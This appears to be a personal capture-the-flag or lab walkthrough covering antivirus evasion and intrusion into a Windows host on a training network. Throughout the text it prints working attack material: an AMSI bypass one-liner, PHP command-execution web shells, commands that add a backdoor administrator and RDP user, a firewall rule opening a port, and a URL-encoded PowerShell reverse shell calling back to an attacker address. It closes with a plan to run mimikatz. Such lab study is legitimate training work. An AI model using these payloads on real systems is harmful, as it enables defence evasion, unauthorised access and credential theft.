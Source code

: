 
Let's 1st try what we have learnt in wreath network and if it doesn't work will learn what they are teaching us.

Let's try this obfuscation
https://www.gaijin.at/en/tools/php-obfuscator
```
<?php system($_GET[base64_decode('Y21k')]);?>
```


As i was going through this Php obfuscation won't work so will have to learn something on the lines of either updating amsi.dll or obfuscate it aka AMSIception.



<hr>



There are a large number of bypasses for AMSI available, a majority written in PowerShell and C#. Find a list of common bypasses below.  

https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell

- Patching amsi.dll
- Amsi ScanBuffer patch
- Forcing errors
- Matt Graeber's Reflection, [](https://www.mdsec.co.uk/2018/06/exploring-powershell-amsi-and-logging-evasion/)[https://www.mdsec.co.uk/2018/06/exploring-powershell-amsi-and-logging-evasion/](https://www.mdsec.co.uk/2018/06/exploring-powershell-amsi-and-logging-evasion/)
- PowerShell downgrade



<hr>


Will Target `Matt Graeber` reflection method as well as patching `amsi.dll`

```
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

##  It is helpful to think of obfuscation as an art rather than a technique.


To Begin with Obfuscation will focus on manual obfuscation more as it's more reliable compared to automated obfuscators.

To aid in our obfuscation efforts, we will use the AMSITrigger script, [https://github.com/RythmStick/AMSITrigger](https://github.com/RythmStick/AMSITrigger), written by RythmStick


Automated obfuscators like Invoke-Obfuscation and ISE-Steroids to perform advanced string and signature manipulation.  

We again recommend using a development virtual machine to test and edit code.


When creating a token command, you will need to be careful not to obfuscate the payload too much and exceed the 8191 character limit in a Windows command prompt.


## So instead of all this will try this shell

![[Pasted image 20240825202530.png]]

Normal Payload
```
php system($_GET[base64_decode('Y21k')]);?>
```
It gets deleted as soon as we try to execute it. 


Payload that is not detected by AV
```
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
</html>
```


But not able to get the reverse shell which means we have to stop the AV first and than we are good to go.
Let's try to kill the windows defender
![[Pasted image 20240829023638.png]]

So not able to kill it but why not add a user and get a rdp instead and than kill the AV ourself.

```
net user /add sardarji  password
```

```
net localgroup administrators sardarji /add
```

```
net localgroup remotedesktopusers sardarji /add
```


So it's time to check if the user was created successfully aka Login time
```
crackmapexec smb 10.201.11.31 -u sardarji -p password --local-auth
```
![[Pasted image 20240829024821.png]]


It's time to check if we can RDP or not !!!!
```
xfreerdp /dynamic-resolution +clipboard /cert:ignore /v:10.201.11.31 /u:sardarji /p:'password'
```
![[Pasted image 20240829025109.png]]

So instead of trying to bypass the AV this is another way we can come in without kocking on the DOOR.

![[Pasted image 20240829025257.png]]


Let's try to get the Reverse Shell now
opened a specific port to pass the traffic through
```
netsh advfirewall firewall add rule name="Open Port 44444" protocol=TCP dir=in localport=44444 action=allow
```

no need to open the port i have given the wrong port in the input
```
powershell%20-nop%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%2710.51.9.13%27%2C4444%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22
```

SO i was right AV was not letting us to get the rev shell.


Next target is AD aka .30 and .35 both are Windows server and will see how to get into them
but before that will run mimikatz via the RDP we get.

